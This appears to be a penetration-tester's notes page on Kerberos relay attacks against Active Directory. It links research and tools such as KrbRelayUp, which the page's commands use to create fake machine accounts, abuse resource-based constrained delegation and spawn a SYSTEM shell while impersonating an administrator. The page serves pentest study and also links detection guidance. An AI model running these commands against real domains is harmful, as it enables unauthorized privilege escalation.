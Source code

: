 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}
